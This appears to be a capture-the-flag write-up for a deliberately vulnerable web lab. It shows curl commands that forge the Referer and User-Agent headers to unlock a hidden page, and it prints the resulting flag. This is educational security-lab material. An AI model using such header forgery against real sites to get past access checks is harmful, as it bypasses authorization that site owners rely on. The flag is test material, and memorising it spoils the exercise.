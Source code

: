 # spoofing headers

while looking at the page with the background music,
i noticed that the html source has lots of comments,

there's an entire (humorous) article about epitech and some other stuff

one of the comments caught my attention:

```html
<!--
You must cumming from : "https://www.nsa.gov/" to go to the next step
-->
```

this must be an allusion to the http `referer` header,
normally the browser sets this field to the previous address visited, but of course it can be spoofed
to try it, all we need to do is append `-H "Referer: https://www.nsa.gov/"` to our curl command


##### let's compare the two pages
in terminal do
```sh
e1z2r10p4% curl 'http://192.168.99.100/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' -s -o before.html
e1z2r10p4% curl 'http://192.168.99.100/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' -H "Referer: https://www.nsa.gov/" -s -o after.html 
e1z2r10p4% diff before.html after.html 
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> FIRST STEP DONE<audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

##### notice `FIRST STEP DONE`
nice, we must be on right path

...

scrolling further through the html source code we notice another comment

```html
<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

##### okay, so this is a clear reference to the `User-Agent` http request header
let's spoof it and see what happens, we just need to append `-H "User-Agent: ft_bornToSec"` to our curl command

```sh
e1z2r10p4% curl 'http://192.168.99.100/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' -H "Referer: https://www.nsa.gov/" -H "User-Agent: ft_bornToSec" -s -o ftbts.html
e1z2r10p4% diff before.html ftbts.html 
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> <center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
e1z2r10p4% 
```

##### we have the flag `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`
nice
